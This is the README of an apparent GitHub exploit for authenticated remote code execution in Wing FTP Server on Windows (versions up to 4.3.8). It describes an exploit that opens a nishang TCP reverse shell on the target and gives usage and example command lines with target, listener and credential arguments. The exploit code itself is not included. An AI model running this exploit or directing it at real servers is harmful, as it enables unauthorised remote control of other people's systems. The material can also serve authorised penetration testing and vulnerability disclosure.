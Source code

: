 # Wing-FTP-RCE Authenticated
This is a Python3 exploit for the Wing FTP Server running on Windows that requires admin panel authentication.

## Tested versions
<=4.3.8

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.
#Usage:
```
final.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
final.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```
